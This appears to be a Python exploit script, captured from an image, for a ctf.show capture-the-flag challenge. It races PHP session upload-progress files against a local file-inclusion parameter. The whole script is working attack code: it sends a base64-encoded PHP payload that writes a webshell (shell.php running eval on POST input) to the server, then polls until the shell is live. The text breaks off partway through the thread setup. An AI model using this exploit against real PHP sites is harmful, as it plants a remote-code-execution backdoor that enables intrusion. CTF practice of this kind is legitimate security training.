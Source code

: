 ### post表单类型

```python
import requests
import threading
import signal


# -------------------------------------必要参数填写-----------------------------------------------
url = 'https://24658c7c-9f40-4829-8cee-7606eac1ba08.challenge.ctf.show/'
# post参数名（文件包含点）
post_param = '1'


# -------------------------------------临时文件上传-----------------------------------------------
sessionid = 'ctfshow'
session_path = '/tmp/sess_' + sessionid
webshell_name = 'shell.php'
url = url.replace("https", "http")
if not url.endswith('/'):
    url += '/'
# 监控ctrl c
stop_event = threading.Event()
data = {
    # 包含临时session文件，生成稳定webshell
    'PHP_SESSION_UPLOAD_PROGRESS': f'<?php $a=base64_decode("PD9waHAgaGlnaGxpZ2h0X2ZpbGUoX19GSUxFX18pO2V2YWwoJF9QT1NUWzFdKTs=");file_put_contents("{webshell_name}",$a);?>',
}
file = {'file': sessionid}
cookies = {'PHPSESSID': sessionid}

# 上传文件函数
def upload_file():
    while not stop_event.is_set():
        requests.post(url, data=data, files=file, cookies=cookies)
# 检查文件是否已创建
def check_file():
    while not stop_event.is_set():
        data = {post_param: session_path}
        requests.post(url,data=data)
        r = requests.get(url + webshell_name)
        if r.status_code == 200 and 'eval' in r.text:
            print('Webshell created successfully')
            print(r.text)
            stop_event.set()
            break
        else:
            print('error：', r.status_code)
# Ctrl+C 捕获处理
def signal_handler(sig, frame):
    print("\nCtrl+C 捕获，正在退出...")
    stop_event.set()
signal.signal(signal.SIGINT, signal_handler)

# 启动线程
threads = []
for _ in range(5):
    t = threading.Thread(target=upload_file)
    t.start()
    threads.append(t)

for _ in range(5):
    t = threading.Thread(target=check_file)
```